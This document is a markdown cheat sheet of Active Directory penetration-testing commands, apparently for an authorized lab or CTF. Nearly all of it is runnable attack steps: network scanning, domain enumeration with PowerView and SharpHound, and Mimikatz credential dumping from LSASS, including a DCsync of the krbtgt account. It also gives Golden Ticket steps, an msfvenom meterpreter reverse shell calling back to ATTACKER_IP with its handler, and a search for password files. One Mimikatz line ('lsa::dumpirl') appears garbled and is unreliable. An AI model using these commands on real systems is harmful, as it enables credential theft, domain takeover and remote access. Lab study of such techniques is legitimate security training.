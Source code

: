 ## Connectivity checks
```shell
ping 10.201.118.160
nmap -sC -sV 10.201.118.160 -p- -oN nmap_full.txt
```

## Basic host context (on Windows host)
```shell
whoami
hostname
ipconfig /all
systeminfo
net user
net localgroup administrators
query user
```

## PowerView (PowerShell) — common
- list DCs and domain info
```shell
Get-NetDomainController
Get-NetDomain
```
- enumerate users and groups
```shell
Get-NetUser -Domain DOMAIN
Get-NetGroupMember -GroupName "Domain Admins"
```
- find shares and writable shares
```shell
Invoke-ShareFinder
Get-NetShare -ComputerName TARGET
```
- list local admin membership across domain
```shell
Get-NetLocalGroup -GroupName "Administrators" -Recurse
```

## SharpHound (BloodHound ingestor)
- PowerShell ingestor
```shell
Invoke-BloodHound -CollectionMethod All -ZipFileName bloodhound.zip
```
- executable ingestor
```shell
SharpHound.exe -c All
```

## Mimikatz (high-level)
```shell
privilege::debug
sekurlsa::logonpasswords # dump credentials from LSASS
lsa::dumpirl # example LSA dumps
lsadump::dcsync /domain:DOMAIN /user:krbtgt # try to get krbtgt (if rights)
```

## Golden Ticket (high-level)
```shell
after obtaining krbtgt hash, construct golden ticket with mimikatz (lab only)
keep evidence of krbtgt hash and successful ticket injection
```

## msfvenom / Metasploit (lab persistence example)
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o payload.exe
```
- handler
```shell
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
run
```

## Privilege escalation checks (Windows)
```shell
whoami /priv
whoami /all
netstat -ano
tasklist /v
schtasks /query /fo LIST /v
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.Name -match "password|cred|secret" }
```

## Useful notes
- Replace `ATTACKER_IP` and `LPORT` with your AttackBox values.  
- Keep all outputs/screenshots for the lab report.  
- Only test these techniques in authorized labs / CTFs.
